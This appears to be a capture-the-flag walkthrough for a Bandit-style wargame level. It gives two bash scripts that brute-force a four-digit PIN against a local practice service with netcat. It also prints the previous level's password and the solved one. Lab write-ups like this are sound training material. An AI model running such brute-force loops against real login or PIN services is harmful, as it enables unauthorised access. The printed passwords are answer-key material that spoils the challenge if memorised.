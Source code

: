 # Level 25:
Let's divide the workload in half run them in 2 terminals
```sh
nano /tmp/bruteforce1.sh
```
```bash
#!/bin/bash
passwd24=VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
for i in {0000..4999}; do
    response=$(echo "$passwd24 $i" | nc localhost 30002)
    if ! echo "$response" | grep -q "Wrong"; then
        echo "Correct PIN: $i"
        echo "$response"
        break
    fi
done
```
And:
```sh
nano /tmp/bruteforce2.sh
```
```bash
#!/bin/bash
passwd24=VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
for i in {5000..9999}; do
    response=$(echo "$passwd24 $i" | nc localhost 30002)
    if ! echo "$response" | grep -q "Wrong"; then
        echo "Correct PIN: $i"
        echo "$response"
        break
    fi
done
```
Let's not forget to give them permission to be executed,
```sh
chmod +x /tmp/bruteforce1.sh && chmod +x /tmp/bruteforce2.sh
```
And execute them. Now we wait.
```sh
/tmp/bruteforce1.sh
/tmp/bruteforce2.sh
```
After it has received the right Pin, our script should say:
```
Correct PIN: ****
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
```
#### Password
*`p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`*
